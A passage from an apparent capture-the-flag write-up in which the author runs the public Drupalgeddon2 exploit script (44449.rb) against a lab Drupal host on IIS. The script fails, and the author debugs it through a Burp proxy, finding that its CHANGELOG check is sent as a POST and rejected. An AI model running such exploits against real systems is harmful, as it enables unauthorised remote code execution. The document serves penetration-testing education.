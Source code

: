 ```

root@kali# ruby 44449.rb http://10.10.10.9/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://10.10.10.9/
--------------------------------------------------------------------------------
[!] MISSING: http://10.10.10.9/CHANGELOG.txt (405)
[!] MISSING: http://10.10.10.9/core/CHANGELOG.txt (404)
[+] Found  : http://10.10.10.9/includes/bootstrap.inc (403)
[+] Found  : http://10.10.10.9/core/includes/bootstrap.inc (403)
[+] Drupal?: 8.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[*] Payload: echo FKIUAUXN
Traceback (most recent call last):                     
        2: from 44449.rb:207:in `<main>'
        1: from /usr/lib/ruby/vendor_ruby/json/common.rb:156:in `parse'
/usr/lib/ruby/vendor_ruby/json/common.rb:156:in `parse': 765: unexpected token at '<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML+RDFa 1.0//EN" (JSON::ParserError)
...[snip]...

```

Interesting. It think’s `CHANGELOG.txt` is missing? But I looked at it earlier.

At the top of the script, there’s a place I can set a proxy. I’ll set it to localhost:

```

# Settings - Proxy information (nil to disable)
proxy_addr = '127.0.0.1'
proxy_port = 8080

```

I’ll clear my burp history, and then run the exploit:

![1551965316788](https://0xdfimages.gitlab.io/img/1551965316788.png)

The attempt to check `CHANGELOG.txt` is a POST, and it returns an error that the HTTP verb is bad:

```

HTTP/1.1 405 Method Not Allowed
Allow: GET, HEAD, OPTIONS, TRACE
Content-Type: text/html
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Thu, 07 Mar 2019 13:19:20 GMT
Connection: close
Content-Length: 1293

```
